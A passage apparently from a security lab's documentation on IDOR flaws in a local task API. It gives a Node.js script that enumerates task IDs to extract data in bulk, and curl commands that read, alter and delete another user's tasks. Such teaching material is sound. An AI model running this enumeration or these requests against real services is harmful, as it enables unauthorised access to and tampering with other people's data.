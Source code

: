 ### 2. Bulk Data Extraction

**Objective**: Extract large amounts of data through automated requests

```javascript
// Automated IDOR exploitation script
const axios = require('axios');

async function extractAllTasks(token, maxId = 1000) {
  const tasks = [];
  
  for (let id = 1; id <= maxId; id++) {
    try {
      const response = await axios.get(`http://localhost:3000/api/tasks/${id}`, {
        headers: { 'Authorization': `Bearer ${token}` }
      });
      
      if (response.status === 200) {
        tasks.push(response.data);
        console.log(`Found task ${id}: ${response.data.title}`);
      }
    } catch (error) {
      // Task not found or access denied
      if (error.response?.status !== 404) {
        console.log(`Error accessing task ${id}: ${error.message}`);
      }
    }
  }
  
  return tasks;
}

// Usage
extractAllTasks('your_jwt_token_here').then(tasks => {
  console.log(`Extracted ${tasks.length} tasks`);
  console.log('Sample data:', tasks.slice(0, 3));
});
```

### 3. Cross-User Data Access

**Objective**: Access specific users' data by manipulating object references

```bash
# Access another user's tasks
curl -H "Authorization: Bearer $USER1_TOKEN" \
     "http://localhost:3000/api/tasks/5"  # Task belonging to user2

# Modify another user's task
curl -X PUT -H "Authorization: Bearer $USER1_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{"title":"Hacked by User1","status":"COMPLETED"}' \
     "http://localhost:3000/api/tasks/5"

# Delete another user's task
curl -X DELETE -H "Authorization: Bearer $USER1_TOKEN" \
     "http://localhost:3000/api/tasks/5"
```
